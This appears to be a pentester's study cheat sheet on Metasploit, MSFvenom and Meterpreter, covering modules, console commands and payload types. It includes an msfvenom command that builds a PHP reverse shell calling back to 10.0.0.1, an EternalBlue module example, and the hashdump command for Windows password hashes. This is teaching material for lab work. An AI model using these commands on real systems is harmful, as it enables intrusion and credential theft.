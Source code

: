#### [Documentation](https://docs.metasploit.com/)

# Metasploit
## Description
Metasploit is an exploitation framework/suite of tools designed to automatically detect standard software and firmware vulnerabilities and deliver exploits against them.
- Start Metasploit with cmd: `msfconsole`

## Components
- **msfconsole**: The main command-line interface.
- **Modules**: Small components within Metasploit used to perform tasks such as exploits, scanners, payloads, etc.
	- **Auxiliary:** scanners, crawlers, and fuzzers.
	- **Encoders:** used to encode an exploit and payload to avoid signature-based antivirus protection.
	- **Evasion:** another way to evade detection from other antivirus detection methods.
	- **Exploit:** used to take advantage of a vulnerability on a target system to deliver a payload.
	- **Payloads:** code that will run on a target system to achieve the desired result (shell, malware, backdoor, privilege escalation).
		- **Singles (or inline):** payloads that do not need any additional components to run
		- **Stagers:** used to establish a connection between Metasploit and a target system. After a *stager* is used to create an initial contact, *stages* are sent, allowing a pentester to send additional larger payloads.
			- Advantages: Initial payload is small and avoids sending duplicate code to establish a connection when using multiple payloads.
		- **Stages:** used after a *stager*, allowing the attacker to use larger payloads.
	- **Post:** used at the end of an engagement or post-exploitation.
- **Tools**: Stand-alone tools used for vulnerability research, vulnerability assessment, and penetration testing.


## Commands
- `msfconsole` - Launches Metasploit command-line interface
- `use [path to exploit]` - Use to select a module
- `show [module type]` - lists available modules within a specified module type (all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options, favorites)
- `info` - Provides additional info on specified modules.
- `search` - Use to search the Metasploit database for modules
	- Search from CVE numbers, exploit names, or platform
	- Examples:
		- `search cve:2009 type:exploit`
		- `search cve:2009 type:exploit platform:-linux`
		- `search cve:2009 -s name`
		- `search type:exploit -s type -r`


## Commands in context
Refers to commands used after selecting a specific module. For example, you can choose a module using the `use` command followed by the path to the module.
- `show options` - Used after a module is selected to list the module and payload options available for the exploit. Lists additional info such as option name, current setting (if set), if required, and description info for each option.
- `set` - Use to set options of a module
	- Example: `msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39`
- `setg [option] [set to]` - Used to set global perameters
- `unsetg [variable]` - Clear one or more global perameters
	- To flush all entries, specify 'all' as the variable name
- `back` - Moves back to the previous location/ exits selected module
- `info` - Provides additional info on specified modules.
- `show payloads` - Show additional commands/payload options for selected exploit
- `set payload` - Use payload for selected exploit
- `exploit` - runs exploit

## Error Handling
- **Exploit completed, but no session was created**
	1) Check `show options` and make sure you are not missing `LHOST` or `LPORT` requirements to connect to shell


# MSFvenom
## Description
MSFvenom is where a pentester can access all the payloads available within Metasploit and create new payloads in different formats and operating systems.
- Allows the pentester the ability to upload raw files for exploitation

**Example of using MSFvenom to achieve a reverse shell is as follows:**
1) Generate a reverse shell script using MSFvenon in a specified file format
	- Reference "*Generating a reverse shell*" under examples
2) Deliver/install shell script onto the target machine
3) Start the Metasploit multi-handler to listen for reverse shell callbacks "catching a shell."
	- `msf6 > use exploit/multi/handler`
4) Execute the reverse shell on the target machine. After execution, your *handler* should catch the connection and allow the pentester access to the machine.

**Note:** payloads are created with comments that will prevent the payload from running unless removed. Therefore, make sure to open the payload and remove comments from the beginning and end of the file before using it.

## Commands
 - `-l, --list [type]` - List all modules for payloads, encoders, nops, platforms, archs, encrypt, formats, and all
 - `-p, --payload [payload]` - Payload to use

## Examples
- **Generating a reverse shell:**
	- `msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=1234 -f raw > reverse_shell.php`
		- `msfvenom` - specify that you are using MSFvenom
		- `-p php/reverse_php` - specifies to use payload "php/reverse_php"
		- `LHOST=10.0.0.1` - sets the local IP address (should be the IP of the machine you are using for your pentest)
		- `LPORT=1234` - sets local port used to catch reverse shell connection
		- `> reverse_shell.php` - specifies output filename

# Meterpreter
## Description
Meterpreter is a tool that runs within the target system's memory, acting as a command and control agent communicating with the attacked computer through encrypted communications. You can use Meterpreter commands to interact more easily with the target operating system and files.
- **Note:** most antivirus software will detect meterpreter and is not a stealth tool.
Determining which Meterpreter payload to use can be decided using three factors:
1) Target operating system (OSX, Linux, Windows, iOS, Android, etc.)
2) Target system components (Python, PHP website, etc.)
3) Network connection (TCP, HTTPS, etc.)
- Search for Meterpreter shells using the command
	- `msfvenom --list payloads | grep meterpreter`

## Commands
Meterpreter commands will be different for each version. To get a list of available commands, type `help`
- `hashdump` - Dumps the database contents where users' passwords are stored on Windows OS.
	- The SAM (Security Account Manager) database stores users' passwords on Windows systems.
	- Passwords are stored in the NTLM (New Technology LAN Manager) format.
- `search` - Use to locate specific files within a system
	- Example: `search -f flag.txt`